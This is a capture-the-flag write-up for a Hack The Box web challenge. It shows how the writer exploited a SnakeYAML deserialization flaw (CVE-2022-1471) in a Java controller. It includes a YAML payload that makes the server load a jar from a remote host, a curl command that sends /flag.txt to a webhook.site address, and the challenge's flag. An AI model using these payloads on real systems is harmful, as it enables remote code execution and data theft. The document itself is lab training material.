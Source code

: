 # Watersnake
> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## About the Challenge
We have been given a source code (You can download the source code [here](web_watersnake.zip)). Here is the preview of the website

![preview](images/preview.png)

And also there is another functionality where we can submit our own YAML configuration

![preview_2](images/preview_2.png)

## How to Solve?
If we check the the `Controller.java` code especially a function called `update()`

```java
import org.yaml.snakeyaml.Yaml;
...
...
@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
      
       	Yaml yaml = new Yaml();

	    Map<String, Object> obj = yaml.load(is);

		obj.forEach((key, value) -> System.out.println(key + ":" + value));

		return "Config queued for firmware update";
	}
}
```

You will see this program using `snakeyaml`. And the packages is outdated if we check the version in `pom.xml` file

![version](images/version.png)

snakeyaml is vulenrable to CVE-2022-1471. So, to exploit this website using CVE-2022-1471, we can use this GitHub [repository](https://github.com/artsploit/yaml-payload/)

![payload](images/payload.png)

Don't forget to change the payload into the blow code because we can't use reverse shell payload (idk why). So, in this case i just send the content of `flag.txt` into webhook

```
curl -F password=@/flag.txt webhook.site/xxxxxxx
```

And then input this in the YAML form

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-server/yaml-payload.jar"]
  ]]
]
```

Check the webhook again and you will see a request from the website

![webhook](images/webhook.png)

And then download the `flag` file

![flag](images/flag.png)

```
HTB{r1d3_th3_sn4k3}
```